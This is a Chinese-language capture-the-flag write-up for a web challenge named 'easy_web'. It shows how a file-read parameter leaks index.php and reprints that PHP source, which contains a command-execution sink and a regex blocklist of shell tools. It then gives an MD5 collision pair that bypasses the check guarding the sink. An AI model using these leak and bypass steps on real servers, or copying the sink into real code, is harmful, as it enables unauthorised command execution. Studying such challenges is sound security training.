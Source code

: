* # 0x01 easy\_web

打开网页发现增加了两个get类型的变量，其中image变量名称怀疑为base64加密后的数据

cmd变量为空，初步猜测为输入点![](/assets/axb1.png)经过两次base64解码后发现为十六进制字符串，翻译后得

![](/assets/abx2.png)

更改img变量内容发现左上角图片消失，判断可以采用此方法泄露源代码，此时将index.php按顺序加密后作为image变量输入得到base64加密后的源代码，解密后获得源代码如下

    <?php
    error_reporting(E_ALL || ~ E_NOTICE);
    header('content-type:text/html;charset=utf-8');
    $cmd = $_GET['cmd'];
    if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
        header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
    $file = hex2bin(base64_decode(base64_decode($_GET['img'])));

    $file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
    if (preg_match("/flag/i", $file)) {
        echo '<img src ="./ctf3.jpeg">';
        die("xixi～ no flag");
    } else {
        $txt = base64_encode(file_get_contents($file));
        echo "<img src='data:image/gif;base64," . $txt . "'></img>";
        echo "<br>";
    }
    echo $cmd;
    echo "<br>";
    if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
        echo("forbid ~");
        echo "<br>";
    } else {
        if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
            echo `$cmd`;
        } else {
            echo ("md5 is funny ~");
        }
    }

    ?>
    <html>
    <style>
      body{
       background:url(./bj.png)  no-repeat center center;
       background-size:cover;
       background-attachment:fixed;
       background-color:#CCCCCC;
    }
    </style>
    <body>
    </body>
    </html>

由源代码可知img变量过滤flag，即不能通过img变量获取flag，并且可以通过利用cmd字符串的代码执行漏洞获取flag。

由代码审计可知需要以post方式传入两个变量a和b并且使a与b的md5值相等同时a与b的字符串值不等，这与之前做过的用数组绕过md5的题不同，该题中采用数组绕过md5的过程中会使第一个条件即强行转化字符串后得到的结果也相等，则直接跳转到下一个条件处。因而只能采用md5强碰撞完成，下面给出解该题所用的md5碰撞字符串对：

```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

a与b在url解码后进行md5加密得到相同的结果，如下图所示：![](/assets/axb3.png)

